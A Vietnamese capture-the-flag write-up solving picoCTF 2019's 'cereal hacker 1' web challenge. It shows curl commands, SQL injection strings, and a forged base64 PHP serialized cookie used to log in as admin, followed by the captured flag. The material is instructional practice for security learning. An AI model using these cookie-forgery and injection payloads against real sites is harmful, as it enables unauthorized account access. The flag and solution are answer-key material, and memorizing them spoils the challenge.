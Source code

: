 # CEREAL-HACKER-1
### Thử thách: 
Đăng nhập vào tài khoản admin của trang web sau: https://2019shell1.picoctf.com/problem/32256/
### Gợi ý: không có
### Kiến thức nền:
 - Local file inclusion.
 - SQL injection.
 - HTTP cookie.
 - PHP Object injection.
### Giải quyết vấn đề:
Okay, trước tiên chúng ta hãy test thử trang login này nào.

![pico](https://user-images.githubusercontent.com/61876488/92143782-f2147a00-ee3f-11ea-9b36-ec3c7a89fe46.png)

1/ Kiểm tra lỗ hổng SQL Injection: 
 - Tại mục username, thử nhập "admin" rồi nhập `'OR 1=1; --` tại mục password để test thử -> Invalid Login. 
 - Có khả năng Password đã được filter. Thử nhập ngay tại username là `admin'--` rồi nhập random tại password-> Invalid Login.

2/ Kiểm tra lỗ hổng Local File Inclusion:
URL của trang login này là: https://2019shell1.picoctf.com/problem/32256/index.php?file=login. Hmm, đoạn `index.php?file=login` khiến mình khá là trigger:v Thay "login" bằng "admin" thử xem sao. Bật curl lên múa thôi nào các bạn:))

```html
root@antoine:~# curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>
```

URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin dẫn ta đến một local file của web server như phía dưới:

![image](https://user-images.githubusercontent.com/61876488/92144329-be861f80-ee40-11ea-8a74-d91c3686f32f.png)

Trên page ko có bất cứ mục nào để nhập vào. F12 để check xem cookie thế nào thì cũng không thấy gì đặc biệt. Thôi thì bấm vào "Go back to login" để quay lại cái trang login ban đầu vậy:((

3/ Kiểm tra dữ liệu HTTP POST:

Trong lúc bắt đầu thấy nản vcl thì mình nảy ra ý tưởng: "Có tài khoản admin thì phải có tài khoản guest chứ nhỉ?" Nhập vào username và password đều là "guest" thử xem. Tada!

![image](https://user-images.githubusercontent.com/61876488/92144823-79162200-ee41-11ea-96c3-ceabb8a84f5b.png) 

Khi nhập vào các mục của trang login, mình nhận thấy không có bất kì thay đổi gì đặc biệt trên thanh URL ngoài `file=regular_user` . Vậy nhiều khả năng input được truyền tới server bằng phương thức POST. Bật curl lên và xem dữ liệu HTTP POST được gửi tới server như nào thôi nào:3
Dùng lệnh: 
```console
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=login --data "user=guest&pass=guest" -v 
```
Sau một hồi căng mắt dò từng dòng một trong đống output dài vê lờ thì mình đã tìm thấy một thứ khả nghi:
```console
Set-Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D;
```
Đây chính là [HTTP Cookie](https://viblo.asia/p/ban-da-hieu-ro-ve-http-cookie-djeZ1DvGKWz) trong header của request mà web browser gửi lên cho server.  Cookie user_info này rất có thể được mã hóa base64. Vào 1 trang [Base64 Decoder](https://www.base64decode.org/) để decode thử, ouput là: 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Output ở phía trên trông khá giống như một [serialized](https://en.wikipedia.org/wiki/Serialization) object trong PHP, và object này thể hiện các thông tin bao gồm username và password. Cùng nhau phân tích output nào:
```
O:11:"permissions": --> object có tên là "permissions",độ dài của string "permissions" là 11 kí tự.
    2: --> số lượng thuộc tính của object "permissions", gồm username và password. 
        {
            s:8:"username"; s:5:"guest"; --> tên của thuộc tính name là một string độ dài 8, giá trị của nó là 1 string độ dài 5.
            s:8:"password"; s:5:"guest"; --> tên của thuộc tính password là một string độ dài 8, giá trị của nó là 1 string độ dài 5.  
        }
```
4/ PHP Object injection:
Object này chứa thông tin để xác thực tài khoản "guest". Vậy nếu chúng ta sửa username thành admin và sử dụng SQL injection để bypass password rồi gói payload này vào 1 [custom HTTP headers](https://www.keycdn.com/support/custom-http-headers)
rồi gửi nó ngược lại cho thằng server thì sao nhỉ? Okay, triển thôi (lưu ý phải thay đổi luôn cả độ dài của string ứng với từng mục nhập vào):

 ```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:12:"' OR 1=1; --";}
```
Mã hóa base64 đống payload này. Sau đó gán output sau khi encode vào cookie user_info chúng ta sẽ gửi nó tới server thông qua URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin như sau:
```console 
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin -H "Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTI6IicgT1IgMT0xOyAtLSI7fQ" && echo
```
Hic hic, server trả về đúng trang cũ (You are not admin!). Có khả năng server đã lọc được kí tự comment "--". Tiếp tục thử payload khác nào: 
```
O:11:"permissions":2:O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"Antoine' or password like '%";}
```
Trong đó `or password like '%` có nghĩa là "hoặc trường password của bản ghi có value bắt đầu bằng null". Mà không có string nào là không bắt đầu bằng null cả nên nó đúng với mọi user nằm trong table (chi tiết xem tại [đây](https://www.w3schools.com/sql/sql_like.asp)). Do đó cho dù password có nhập cái vẹo gì đi chăng nữa chúng ta vẫn login đc vào tài khoản admin. Lặp lại các bước như phía trên ta thu được:

```html
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

</html>

```
Hai cái payload này chỉ là một số hàng chục payload mà mình đã thử:v Vì bài viết có hạn nên chỉ xin giới thiệu từng này:))) Các bạn có thể tham khảo các câu lệnh SQL để inject vào mục tiêu thông qua các cheat sheet nha:3

Anyway, this is the endgame!!!!
